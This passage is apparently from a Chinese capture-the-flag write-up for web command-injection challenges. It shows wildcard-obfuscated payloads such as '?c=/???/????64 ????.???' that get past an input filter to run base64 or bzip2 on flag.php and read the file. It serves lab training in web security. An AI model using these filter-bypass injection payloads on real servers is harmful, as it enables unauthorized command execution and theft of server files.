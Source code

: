 ```
“#!/bin/sh” 这一行被称为 “shebang” 行。
它的作用是告诉操作系统，这个脚本应该使用 /bin/sh 这个解释器来执行。
```

提交拿到flag

**第二种**方法——数字没有过滤，可以采用bin目录下的base64命令：

/bin/base64的主要作用是对数据进行Base64编码或解码

```
使用方法：/bin/base64 filename
```

这个命令会将filename文件的内容进行Base64编码，并将结果输出 :

```
?c=/???/????64 ????.???
```

*意思为：?c=/bin/base64 flag.php*

拿到flag.php的base64编码

![image-20250209212635376](assets/image-20250209212635376.png)

解码拿到flag

**第三种**方法——使用/usr/bin/bzip2 对文件进行压缩:

```
?c=/???/???/???2 ????.???
```

意思为：?c=/usr/bin/bzip2 flag.php

最后访问/flag.php.bz2即可
下载下来的压缩包中包含有flag.php



#### web56

![image-20250209221423216](assets/image-20250209221423216.png)

